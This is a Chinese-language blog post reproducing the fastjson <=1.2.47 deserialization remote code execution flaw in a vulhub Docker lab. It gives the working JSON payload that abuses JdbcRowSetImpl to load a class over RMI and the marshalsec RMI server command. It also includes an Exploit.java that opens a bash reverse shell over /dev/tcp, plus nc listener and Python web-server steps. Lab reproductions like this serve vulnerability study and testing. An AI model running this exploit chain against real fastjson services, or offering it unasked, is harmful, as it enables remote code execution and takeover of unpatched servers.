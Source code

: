 ```yaml
---
layout: post
title: fastjson<=1.2.47远程代码执行漏洞复现
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - fastjson
  - java
  - RCE
---
```


Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。
 

## 0x01 攻击思路
![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/1.png)
## 0x02 环境搭建
我用的vulhub上的fastjson环境进行复现，项目地址：
> [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)   

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 0x03 测试漏洞
准备一台服务器监听流量  
`nc -lvp 7777`  
发送如下payload，将IP改为监听服务器IP  
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://your-ip:7777/Exploit",
        "autoCommit":true
    }
}
```
如果监听服务器有流量，说明存在漏洞，可以继续下一步  

![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/2.png)
## 0x04 准备RMI服务和Web服务
首先我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口  

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://your-ip:port/#Exploit" 9999
```
然后我们准备Exploit.java攻击代码，由于该漏洞没有回显，所以我使用命令反弹shell，你们也可以修改成你们执行的代码

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/ip/port 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

将上述payload上传到RMI服务同一目录，使用`javac Explpit.java`编译成class文件，然后通过python开启一个web服务：`python -m SimpleHTTPServer 80`

## 0x05 准备
回顾一下，现在目录应该有三个文件

```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web

```
LDAP Server：Listening on 0.0.0.0:9999
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL

```
nc -lvp 8000
```

## 0x06 执行
抓包，向靶场服务器发送Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://ip:9999/Exploit",
        "autoCommit":true
    }
}
```

![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/3.png)

接下来如果没有任何报错的话，RMI将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行
你的RMI服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/4.png)
## 0x07 注意
由于攻击过程需要搭建两个服务，RMI和web，所以攻击思路一定要清晰，我们在漏洞点通过payload请求RMI服务上的Exploit类，RMI服务器接收到请求后加载远程web服务上的Exploit类，从而执行恶意代码。所以启动RMI服务的时候记住请求http服务是python开启的web ip和端口，最后的是RMi服务自己监听的端口，nc监听的是Exploit.java中的端口号，不要搞错了。

另外，当javac版本和目标服务器差太多，会报一个这样得到错误，所以需要使用1.8的javac来编译Exploit.java
